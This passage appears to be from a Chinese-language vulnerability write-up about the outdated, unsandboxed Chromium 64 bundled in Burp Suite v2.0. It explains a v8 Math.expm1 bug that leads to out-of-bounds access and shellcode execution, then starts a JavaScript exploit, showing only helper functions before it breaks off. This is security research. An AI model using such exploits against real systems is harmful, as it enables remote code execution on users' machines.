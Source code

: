 browsercore32.exe进程运行参数如下：

```plain
// Chromium主进程
C:\Users\user\AppData\Local\JxBrowser\browsercore-64.0.3282.24.unknown\browsercore32.exe --port=53070 --pid=13208 --dpi-awareness=system-aware --crash-dump-dir=C:\Users\user\AppData\Local\JxBrowser --lang=zh-CN --no-sandbox --disable-xss-auditor --headless --disable-gpu --log-level=2 --proxy-server="socks://127.0.0.1:0" --disable-bundled-ppapi-flash --disable-plugins-discovery --disable-default-apps --disable-extensions --disable-prerender-local-predictor --disable-save-password-bubble --disable-sync --disk-cache-size=0 --incognito --media-cache-size=0 --no-events --disable-settings-window

// Renderer进程
C:\Users\user\AppData\Local\JxBrowser\browsercore-64.0.3282.24.unknown\browsercore32.exe --type=renderer --log-level=2 --no-sandbox --disable-features=LoadingWithMojo,browser-side-navigation --disable-databases --disable-gpu-compositing --service-pipe-token=C06434E20AA8C9230D15FCDFE9C96993 --lang=zh-CN --crash-dump-dir="C:\Users\user\AppData\Local\JxBrowser" --enable-pinch --device-scale-factor=1 --num-raster-threads=1 --enable-gpu-async-worker-context --disable-accelerated-video-decode --service-request-channel-token=C06434E20AA8C9230D15FCDFE9C96993 --renderer-client-id=2 --mojo-platform-channel-handle=2564 /prefetch:1
```

从进程运行参数分析得知，Chromium进程以headless模式运行、关闭了沙箱功能、随机监听一个端口（用途未知）。

## 三、漏洞利用

Chromium组件的历史版本几乎都存在着1Day漏洞风险，特别是在客户端软件一般不会维护升级Chromium版本，且关闭沙箱功能，在没有沙箱防护的情况下漏洞可以无限制利用。

Burp Suite v2.0内置的Chromium版本为64.0.3282.24，该低版本Chromium受到多个历史漏洞影响，可以通过v8引擎漏洞执行shellcode从而获得PC权限。

以Render功能演示，利用v8漏洞触发shellcode打开计算器（此处感谢Sakura提供漏洞利用代码）

这个漏洞没有公开的CVE ID，但其详情可以在[这里](https://bugs.chromium.org/p/chromium/issues/detail?id=880207)找到。 该漏洞的Root Cause是在进行`Math.expm1`的范围分析时，推断出的类型是`Union(PlainNumber, NaN)`，忽略了`Math.expm1(-0)`会返回`-0`的情况，从而导致范围分析错误，导致JIT优化时，错误的将边界检查CheckBounds移除，造成了OOB漏洞。

```plain
<html>
<head></head>
</body>
<script>
function pwn() {
    var f64Arr = new Float64Array(1);
    var u32Arr = new Uint32Array(f64Arr.buffer);

    function f2u(f) {
        f64Arr[0] = f;
        return u32Arr;
    }

    function u2f(h, l)
    {
        u32Arr[0] = l;
        u32Arr[1] = h;
        return f64Arr[0];
    }

    function hex(i) {
        return "0x" + i.toString(16).padStart(8, "0");
    }

    function log(str) {
        console.log(str);
        document.body.innerText += str + '\n';
    }

    var big_arr = [1.1, 1.2];
    var ab = new ArrayBuffer(0x233);
```
